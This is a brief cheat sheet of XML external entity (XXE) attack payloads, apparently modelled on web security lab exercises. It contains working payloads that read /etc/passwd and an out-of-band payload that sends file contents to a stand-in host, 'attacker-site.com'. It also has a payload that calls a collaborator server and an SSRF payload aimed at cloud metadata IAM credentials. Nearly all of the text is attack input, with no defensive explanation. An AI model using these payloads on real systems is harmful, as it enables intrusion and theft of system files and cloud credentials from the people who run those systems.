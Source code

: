 ## retrieve data
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

`<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-site.com/?x=%file;'>"> %eval; %exfiltrate;  ]> `

## http request with data extrafiltration
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://collabrator.com"> %xxe;]> <stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>`

## server side request forgery via xxe
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE aora [<!ENTITY xxe SYSTEM "http://TARGET/latest/meta-data/iam/security-credentials/admin">]><stockCheck><productId>&xxe;</productId><storeId> 1</storeId></stockCheck>`
